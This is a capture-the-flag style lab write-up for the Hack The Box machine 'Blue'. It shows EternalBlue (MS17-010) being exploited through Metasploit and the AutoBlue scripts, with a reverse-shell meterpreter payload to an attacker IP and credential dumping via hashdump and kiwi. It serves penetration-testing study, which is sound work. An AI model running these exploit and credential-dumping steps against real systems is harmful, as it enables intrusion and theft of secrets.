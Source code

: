 HTB - 3. Blue (MS17.010)

1. `nmap -T4 -p- -A 10.10.10.40` shows 139 & 445 (smb) open, version Windows 7 Professional 7601 Service Pack 1, computer name is haris-PC, message signing enabled by not required,
2. Metaploit
	Test if vulnerable
	```
	sudo msfconsole
	search ms17-010
	use auxiliary/scanner/smb/smb_ms17_010
	options
	set rhosts 10.10.10.40
	run
	```
	Result: Host is likely vulnerable
	
	Exploit:
	```
	use exploit/windows/smb/ms17_010_eternalblue
	set rhosts 10.10.10.40
	show targets
	run
	```
	Result: shell popped with `nt authoirty/system`
	
	Used an un-staged payload, so lets try staged and get a meterpreter
	```
	set payload windows/x64/meterpreter/reverse_tcp
	options
	run
	getuid
	sysinfo
	hashdump
	shell
	route print
	arp -a
	netstat -ano
	load kiwi
	help
	creds_all
	lsa_dump_sam
	lsa_dump_secrets
	load incognito
	list_tokens -u
	```
3. Autoblue: https://github.com/3ndG4me/AutoBlue-MS17-010
	```
	git clone https://github.com/3ndG4me/AutoBlue-MS17-010
	cd AutoBlue-MS17-010
	ls
	python eternalblue_checker.py 10.10.10.40
	```
	Result: Target not patched
	
	Exploit:
	```
	cd shellcode
	sudo ./shell_prep.sh
	y
	10.10.14.24
	4445
	4446
	0 <-- Meterpreter instead of shell
	0 <-- Staged instead of un-staged
	cd ..
	ls
	sudo ./listener_prep.sh
	10.10.14.24
	4445
	4446
	0
	0
	python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin
	sessions
	sessions 1
	getuid
	whoami
	sysinfo
	```



